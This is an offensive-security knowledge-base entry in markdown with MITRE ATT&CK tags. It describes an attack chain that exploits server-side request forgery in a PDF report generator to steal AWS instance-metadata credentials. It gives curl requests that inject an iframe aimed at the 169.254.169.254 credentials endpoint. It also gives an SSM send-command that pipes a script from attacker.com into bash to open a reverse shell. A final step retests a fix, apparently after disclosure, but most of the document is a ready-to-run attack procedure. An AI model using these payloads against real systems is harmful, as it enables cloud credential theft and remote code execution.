

---
tags:
  - ssrf
  - aws
  - metadata
  - credential-exposure
  - html-injection
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-inject-ssrf-iframe]]'
  - '[[commands/aws-ssm-send-command]]'
platforms:
  - Web
  - AWS
complexity: medium
procedures:
  - '[[procedures/Identify-Unsanitized-Input-in-PDF-Generation]]'
  - '[[procedures/Inject-HTML-Iframe-for-SSRF-Exploitation]]'
  - '[[procedures/Extract-AWS-Credentials-from-Generated-PDF]]'
  - '[[procedures/Verify-Vulnerability-Fix]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Unsecured Credentials]]'
description: >-
  Multi-stage attack chain exploiting SSRF in PDF generation to access AWS
  metadata and credentials
skill_level: intermediate
impact_level: high
id: e7668fc6-09e1-4f90-a82c-de1c27d2a303
created_at: '2025-12-11T06:10:22.567Z'
updated_at: '2025-12-11T06:10:22.567Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0007]]'
  - '[[TA0009]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1552]]'
---
# SSRF via PDF Template Injection to Exfiltrate AWS Metadata Credentials

Multi-stage attack chain demonstrating exploitation of an SSRF vulnerability in the Analytics Reports PDF generation feature by injecting unsanitized HTML, leading to unauthorized access to AWS instance metadata and credentials.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None explicitly required, but tools like curl for HTTP requests are useful.

### Target Environment

- Web application with Ruby on Rails backend
- AWS-hosted environment (EC2 instances with metadata service)
- PDF conversion library processing HTML

### Initial Access Requirements

- Access to the Analytics Reports PDF generation endpoint
- Ability to submit requests with custom 'template' parameters
- No authentication specified, assume standard user access

## Detailed Attack Procedures

## Step 1: Identify Unsanitized Input - [[procedures/Identify-Unsanitized-Input-in-PDF-Generation]]

**Objective**: Discover lack of sanitization in error messages during PDF generation by testing input reflection.

**Instructions**: Submit a request to the PDF generation endpoint with a test template value that includes HTML tags to check for reflection in error messages. Use [[commands/curl-inject-ssrf-iframe]] to send the request:

```bash
curl -X POST 'https://target.com/analytics/reports/generate' -d 'template=<b>test</b>' --header 'Content-Type: application/x-www-form-urlencoded'
```

Examine the response or generated PDF for unsanitized HTML output.

**Expected Output**: Error message reflecting the injected HTML without sanitization.

**Success Indicators**:
- HTML tags appear in the error message or PDF.
- No escaping or filtering observed.

## Step 2: Inject Malicious Iframe - [[procedures/Inject-HTML-Iframe-for-SSRF-Exploitation]]

**Objective**: Exploit the unsanitized input to inject an <iframe> tag that triggers an SSRF request to internal AWS services.

**Instructions**: Craft and submit a request with a malicious template value containing an <iframe> sourcing the AWS metadata endpoint. Use [[commands/curl-inject-ssrf-iframe]]:

```bash
curl -X POST 'https://target.com/analytics/reports/generate' -d 'template=<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/"></iframe>' --header 'Content-Type: application/x-www-form-urlencoded'
```

The PDF generator will process the iframe and fetch the internal URL.

**Expected Output**: Generated PDF includes content from the internal AWS metadata service.

**Success Indicators**:
- PDF contains AWS metadata.
- No errors indicating URL validation.

## Step 3: Extract Credentials - [[procedures/Extract-AWS-Credentials-from-Generated-PDF]]

**Objective**: Retrieve exposed AWS credentials from the PDF and assess potential for further exploitation, such as using [[commands/aws-ssm-send-command]] for command execution.

**Instructions**: Download and inspect the generated PDF for embedded metadata, including AccessKeyId and SecretAccessKey. If credentials are obtained, they can be used with commands like [[commands/aws-ssm-send-command]]:

```bash
aws ssm send-command --document-name "AWS-RunShellScript" --parameters 'commands=["curl http://attacker.com/reverse-shell.sh | bash"]'
```

**Expected Output**: PDF reveals sensitive AWS credentials.

**Success Indicators**:
- Credentials like AccessKeyId visible in PDF.
- Potential for resource manipulation confirmed.

## Step 4: Verify Fix - [[procedures/Verify-Vulnerability-Fix]]

**Objective**: Retest the endpoint after reported fix to confirm sanitization.

**Instructions**: Repeat the injection attempt using [[commands/curl-inject-ssrf-iframe]] and check if HTML is now sanitized in error messages.

```bash
curl -X POST 'https://target.com/analytics/reports/generate' -d 'template=<iframe src="http://169.254.169.254/latest/meta-data/iam/security-credentials/"></iframe>' --header 'Content-Type: application/x-www-form-urlencoded'
```

**Expected Output**: Error messages no longer reflect injected HTML.

**Success Indicators**:
- Injection fails post-fix.
- No metadata exposure.

## Attack Chain Summary

### Key Achievements

1. Identified and exploited SSRF via HTML injection.
2. Accessed and exfiltrated AWS credentials.
3. Demonstrated potential for command execution and resource compromise.
4. Verified remediation effectiveness.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Unsecured Credentials]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

*Last updated: 2023-10-01*
